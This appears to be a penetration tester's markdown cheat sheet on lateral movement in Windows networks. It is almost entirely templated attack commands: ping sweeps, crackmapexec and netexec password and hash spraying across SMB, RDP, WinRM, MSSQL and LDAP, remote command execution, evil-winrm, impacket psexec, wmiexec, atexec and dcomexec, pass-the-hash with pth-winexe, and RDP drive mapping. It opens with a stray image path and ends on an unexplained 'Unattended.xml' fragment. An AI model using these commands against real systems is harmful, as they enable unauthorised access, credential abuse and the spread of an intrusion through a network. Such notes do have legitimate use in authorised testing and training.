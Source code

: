 ## Important Files 
```
tree /f /a 
```

## Lateral Movement
```
for /L %i in (0,1,255) do ping -n 1 -w 250 192.168.2.%i >> ip.txt && type ip.txt | select string Reply
arp -a
crackmapexec smb <ip> -u <user> -p <password> -L
crackmapexec smb <ip> -u <user> -p <password> --shares
crackmapexec rdp <ip> -u <user> -p <password> -L
crackmapexec winrm <ip> -u <user> -p <password> -L
crackmapexec mssql <ip> -u <user> -p <password> -L
crackmapexec ssh <ip> -u <user> -p <password> -L
crackmapexec ftp <ip> -u <user> -p <password> -L
crackmapexec ldap <ip> -u <user> -p <password> -L
netexec wmi <ip> -u <user> -p <password> -L
netexec vnc <ip> -u <user> -p <password> -L
crackmapexec smb <ip> -u <user> -p <pass> -M spider_plus
crackmapexec smb <ip> -u <user> -H <hash> -M spider_plus
crackmapexec smb <ip> -u <user> -p <password> -X 'whoami'
crackmapexec smb <ip> -u <user> -H <hash> -X 'whoami'
winrs -remote:<computer name> -u:<user> -p:<password> <command>
winrs -r:<computer name> <command> (use cmd to get shell)
$sess = New-PSSession -ComputerName <name>
Enter-PSSession -ComputerName <name>
Enter-PSSession -ComputerName <name> -Credential <credntials>
Enter-PSSession -Session <session var>
Invoke-Command -ScriptBlock {whoami} -Session $sess
Invoke-Command -ComputerName <name> -ScriptBlock {whoami}
Invoke-Command -ComputerName (Get-Content <list of computer names> -ScriptBlock{whoami})
Invoke-Command -ComputerName <name> -FilePath <filename>
Invoke-Command  -FilePath <filename> -Session <session var>
netexec smb <ip> -u username -p password -X "command to execute"
evil-winrm -H <hash> -u <user> -i <ip>
evil-winrm -u <user> -p <password> -i <ip>
impacket-psexec <domain>/<user>:<password>@<ip>
impacket-wmiexec <domain>/<user>:<password>@<ip>
impacket-atexec <domain>/<user>:<password>@<ip>
psexec.py <user>:@<IP> -hashes <NTLM-hash>
evil-winrm -u <domain>/<user> -p <password> -i <ip>
evil-winrm -u <domain>/<user> -H <hash> -i <ip>
impacket-wmiexec <domain>/<user>:<password>@<ip>
impacket-atexec <domain>/<user>:<password>@<ip>
impacket-atexec -hashes <hash> <domain>/<user>@<ip>
impacket-dcomexec -object <MMC20 or ShellWindows or ShellBrowserWindow> <domain>/<user>:<password>@<ip>
pth-winexe -U <username>%:<hash> //<ip> cmd.exe
psexec -hases <hash> <domain>/<user>@<ip>
pth-winexe -U <user>%<hash> //<ip> cmd
crackmapexec smb <ip-range> -u <user> -H <nt-hash> (Hash - AD accounts)
crackmapexec smb <ip-range> -u <user> -p <password> (Password - AD accounts)
crackmapexec smb <ip-range> -u <user> -H <nt-hash> --local-auth (for local accounts)
xfreerdp /u:user /p:'password' /v:X.X.X.X /d:domain /sec:rdp +clipboard (no /d if local account)
xfreerdp /u:user /p:'password' /v:X.X.X.X /d:domain /sec:tls +clipboard
xfreerdp +clipboard /u:user /p:'password' /v:X.X.X.X /d:domain /sec:<whatever> /drive:<absolute path to your local folder>,/ (if you want to have files and clipboard)
netexec smb <ip> -u username -p password -X "command to execute"
rpcclient -U <user> <ip>
```
- Unattended.xml
